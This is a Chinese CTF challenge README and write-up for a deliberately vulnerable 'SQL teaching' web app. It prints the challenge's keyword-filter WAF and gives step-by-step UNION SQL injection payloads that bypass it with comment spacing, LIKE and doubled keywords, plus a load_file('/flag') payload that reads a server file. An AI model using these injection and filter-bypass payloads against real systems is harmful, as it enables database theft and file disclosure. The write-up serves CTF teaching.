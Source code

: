 # BeginCTF2024 SQL教学局

此repo为该题源码，可以通过以下命令快速搭建

~~dockerfile写得稀烂师傅们骂轻点（~~

```
docker push kihanahare/2024beginctf_sqldemo:V1
```

# WriteUp

官方全套wp飞书直达：https://hjug69b9j6.feishu.cn/docx/V02Rd3MyWoRPVxxTTCOcLutNnqe?from=from_copylink

甩锅：题目没有问题，只是你拿到的第二段flag可能是假的，因为里面500条混淆数据，只有特定的一条是正确的

本着教学的目的，还是简单提一嘴sql注入，以及观察waf的方法，这里直接把waf放出来

```PHP
function waf($input)
{
    if (preg_match('/regexp|left|floor|reverse|update|between|=|>|<|and|\|right|substr|replace|char|&|\\\$|sleep| /i', $input, $matches)) {
        return array(false, $matches[0]);
    } else {
        $pattern = "/(select|from|load|or)/i";
        $input = preg_replace($pattern, '', $input);
        return array(true, $input);
    }
}
```

本质上就是对sql语句的直接拼接，且对传入的参数没有做好过滤，导致非法的sql语句执行，这一点在前端中也体现了，此处采用的注入手法为union注入，也就是联合注入

- 第一段flag位于 secret数据库password表的某条数据

构造的sql语句为：

```SQL
select ? from secret.password
```

由于不知道字段名，可以通过查询information_schema.columns获得数据，固定手法啊，记好了！

```SQL
select group_concat(column_name) from information_schema.columns where table_schema=xxx
```

然后空格绕过，此处采用/**/即可，等号被过滤了用like即可

![img](https://hjug69b9j6.feishu.cn/space/api/box/stream/download/asynccode/?code=NTg0YzU5ZWMxMzE4NTY3MGQyZmY0NzZiMTc4MzdmZWZfZVVEcUNNZXBkVmxjN1VKdEhaaGw3Skprek5YS1lSUERfVG9rZW46UHBITGJ2Vlppb3dQRGx4TDBLeGNLZmY0bm9mXzE3MDgwMTIzNjM6MTcwODAxNTk2M19WNA)

发现有些关键字被吞了，双写绕过即可，select -> selselectect

![img](https://hjug69b9j6.feishu.cn/space/api/box/stream/download/asynccode/?code=NmIzMWUwMWJiZDEwYzMwYmE1MjVhZWU2YzRjM2ViNzBfOHR1MDZ2dmpPbHdsS3E1NzhCZjMxT05wY3Z2aHpPTThfVG9rZW46UW0ycGJvNWZobzRRT0p4b2VXeGNpbkE3bklUXzE3MDgwMTIzNjM6MTcwODAxNTk2M19WNA)

获得三个字段名，猜一下是flag，猜不到你就爆

综上所述，绕过waf后，所以第一个flag的payload：

```SQL
1'/**/union/**/selselectect/**/flag/**/frofromm/**/secret.passwoorrd%23
```

![img](https://hjug69b9j6.feishu.cn/space/api/box/stream/download/asynccode/?code=NzAwZjBhMGRmNzRjZDQ0N2YxNDkyNDlhZjkzYWU2Y2JfaGp1M3VPTTRCQWdpcTc0Q2tZU01mSHVISW9XRDhrUkxfVG9rZW46TW5oRWJidE44b244Zlh4aW1laWNXQUtXbnlEXzE3MDgwMTIzNjM6MTcwODAxNTk2M19WNA)

- 第二段flag位于 当前数据库score表，学生begin的成绩(grade)

争议最大的地方，不想手选数据就用where搞定即可。构造的sql语句为：

```SQL
select ? from score where ? = 'begin'
```

不知道字段名用上面的方法看一下嘛！

![img](https://hjug69b9j6.feishu.cn/space/api/box/stream/download/asynccode/?code=NmNmOWI2Y2Q1MjQ4MzFhYWQ3YWRiMmFjNzkwMzFmM2VfM1c2SW9McVVPS3BITzhUczFFWU0xUm9Vb0RuYmlIZ3lfVG9rZW46WnVVZWJ0NndPb0JRR1J4RldGS2N1TlJGblkyXzE3MDgwMTIzNjM6MTcwODAxNTk2M19WNA)

绕过waf，payload如下

```SQL
1'/**/union/**/seleselectct/**/grade/**/frfromom/**/scoorre/**/where/**/student/**/like/**/'begin'/**/%23
```

![img](https://hjug69b9j6.feishu.cn/space/api/box/stream/download/asynccode/?code=ZDUzZmEyMzllODhkZTMyZDExYjI2YzZlYjA5ODk2YjRfWE5zT3RvWnlTa1ZrcUZYNDlURnA5YnRzZ2tsNnUxZHFfVG9rZW46TG9Fa2J3bHFYb3l1eXh4eklKZmNSN1FBblNmXzE3MDgwMTIzNjM6MTcwODAxNTk2M19WNA)

其实本来是要把begin过滤掉的，但是好像忘写了，可以想一想如果过滤了begin，又怎么做

- 第三段flag位于 /flag

经典之load_file，读文件即可

构造的sql语句：

```SQL
select load_file('/flag')
```

绕过waf，payload如下

```SQL
1'/**/union/**/seleselectct/**/loloadad_file('/flag')%23
```

![img](https://hjug69b9j6.feishu.cn/space/api/box/stream/download/asynccode/?code=YmY3MTFlNjJlOTE3OWFiYTM3MTFmODYyODU1MzA1MzdfMkJ0REpYVTVqaW51VmlLWk5KZlVINUFrMGkwa0w3dmpfVG9rZW46RmRVSWIzMFpZb1l3MFV4UnMwa2NjT0RXblFmXzE3MDgwMTIzNjM6MTcwODAxNTk2M19WNA)

